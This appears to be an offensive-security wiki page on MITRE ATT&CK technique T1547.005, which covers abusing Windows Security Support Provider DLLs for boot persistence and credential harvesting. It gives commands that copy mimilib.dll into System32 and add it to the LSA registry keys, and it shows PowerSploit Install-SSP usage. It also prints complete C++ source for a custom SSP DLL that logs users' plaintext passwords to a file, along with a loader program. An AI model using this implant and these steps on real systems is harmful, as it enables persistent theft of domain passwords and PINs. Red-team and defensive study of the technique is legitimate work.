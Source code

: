```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Security Support Provider -
  Technique T1547.005
---
```


# Security Support Provider DLLs

## Theory

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

## Practice

{% hint style="danger" %}
We won't be able to make it work If [LSA protection (RunAsPPL)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry) is enabled. Loaded SSP DLLs will have to be signed by Microsoft as LSASS.exe will run as a [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process).
{% endhint %}

We may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called. The SSP configuration is stored in this two Registry keys:

* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`
* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages`.&#x20;

{% tabs %}
{% tab title="Mimikatz" %}
The [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases) project provides a DLL file (mimilib.dll) that can be used as a malicious SSP DLL that will log credentials in this file:

```powershell
C:\Windows\System32\kiwissp.log 
```

First, you will have to copy mimilib.dll in System32

```powershell
copy C:\Windows\Temp\mimilib.dll C:\Windows\System32\mimilib.dll
```

Then, edit LSA registry keys to include the new security support provider

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://attack.mitre.org/software/S0194)'s `Install-SSP` Persistence module can be used to install a SSP DLL.

```powershell
Import-Module .\PowerSploit.psm1
Install-SSP -Path .\mimilib.dll
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcutsom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}

Then, here is a code that loads the malicious SSP custom.dll:

{% code title="load_ssp.cpp" %}
```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\sspcutsom.dll", &spo);
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

### In-memory DLL injection - Credential Access

We may directly inject [SSP DLLs](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) into memory. It prevent us from editing registries but using this approach, it will not persist accross reboots.

{% content-ref url="../../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md)
{% endcontent-ref %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/005/" %}

{% embed url="https://pentestlab.blog/2019/10/21/persistence-security-support-provider/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
